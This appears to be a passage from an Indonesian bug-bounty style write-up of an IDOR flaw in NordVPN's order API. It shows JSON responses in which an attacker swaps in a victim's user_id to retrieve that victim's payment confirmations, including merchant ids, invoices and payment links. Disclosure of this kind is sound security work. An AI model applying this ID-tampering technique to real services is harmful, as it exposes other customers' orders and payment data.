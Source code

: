 Responnya :

```
{
"id": 42615458,
"user_id": 20027039,
"confirmation": {
    "id": 23093398,
    "created_at": "2019-12-04 17:01:35",
    "updated_at": "2019-12-04 17:01:35",
    "type": "redirect_post",
    "value": "{\"url\":\"https:\\/\\/www.coinpayments.net\\/index.php\",\"parameters\":{\"cmd\":\"_pay\",\"reset\":1,\"email\":\"█████\",\"merchant\":\"e64a9629f9a68cdeab5d0edd21b068d3\",\"currency\":\"USD\",\"amountf\":125.64,\"item_name\":\"VPN order\",\"invoice\":\"49476958\",\"success_url\":\"https:\\/\\/join.nordvpn.com\\/payments\\/callback\\/264cae0b89e44a7bd263431b68d1122d\",\"cancel_url\":\"https:\\/\\/join.nordvpn.com\\/order\\/error\\/?error_alert=payment&eu=1\",\"want_shipping\":0}}"
}
}
```

dari respon diatas, attaker mengganti **user_id** miliknya dengan menggunakan **user_id** korban.

```
{
"id": 42616142,
"user_id": 89495247,
"confirmation": {
    "id": 23093800,
    "created_at": "2019-12-04 17:16:48",
    "updated_at": "2019-12-04 17:16:48",
    "type": "redirect_post",
    "value": "{\"url\":\"https:\\/\\/www.coinpayments.net\\/index.php\",\"parameters\":{\"cmd\":\"_pay\",\"reset\":1,
    \"email\":\"hackerhacker@test.pl\",\"merchant\":\"e64a9629f9a68cdeab5d0edd21b068d3\",\"currency\":\"USD\",\"amountf\":125.64,
    \"item_name\":\"VPN order\",\"invoice\":\"49478089\",\"success_url\":\"https:\\/\\/join.nordvpn.com\\/payments\\/callback\\/
    4513bd083a97e1b5c23c69096d89ac80\",\"cancel_url\":\"https:\\/\\/join.nordvpn.com\\/order\\/error\\/?error_alert=payment&eu=0\",
    \"want_shipping\":0}}"
}
}
```

kemudian attacker mengganti **user_id** ke **23093782**, output nya seperti ini :

```
{
"id": 42616121,
"user_id": 89495166,
"confirmation": {
    "id": 23093782,
    "created_at": "2019-12-04 17:16:14",
    "updated_at": "2019-12-04 17:16:14",
    "type": "redirect",
    "value": "https://pay.gocardless.com/flow/RE000W16X7XH4JCXJZ623MS6H7W316N3"
}
}
```
